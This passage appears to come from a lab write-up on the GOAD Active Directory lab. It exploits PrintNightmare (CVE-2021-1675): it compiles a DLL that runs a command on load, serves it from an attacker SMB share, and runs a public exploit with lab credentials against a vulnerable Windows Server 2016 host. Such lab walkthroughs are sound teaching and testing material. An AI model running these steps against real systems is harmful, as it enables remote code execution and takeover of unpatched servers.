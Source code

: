```c
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        RunCMD();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

- Compile it:

```shell
x86_64-w64-mingw32-gcc -shared -o nightmare.dll nightmare.c
```

### Exploit on old and vulnerable windows server 2016 (meereen)

- Clone the exploit

```shell
git clone https://github.com/cube0x0/CVE-2021-1675 printnightmare
```

- Prepare a smb share with the dll

```shell
smbserver.py -smb2support ATTACKERSHARE .
```

- Before the exploit no user pnightmare

![pnightmare_before.png](/assets/blog/GOAD/pnightmare_before.png)

- Try on Braavos
  - Braavos is an up-to-date windows server 2016, the exploit will not work (same error if you try on the north domain on castelblack server)

![printnightmare_error.png](/assets/blog/GOAD/printnightmare_error.png)


- Exploit on Meereen

```shell
python3 CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@meereen.essos.local '\\192.168.56.1\ATTACKERSHARE\nightmare.dll'
```
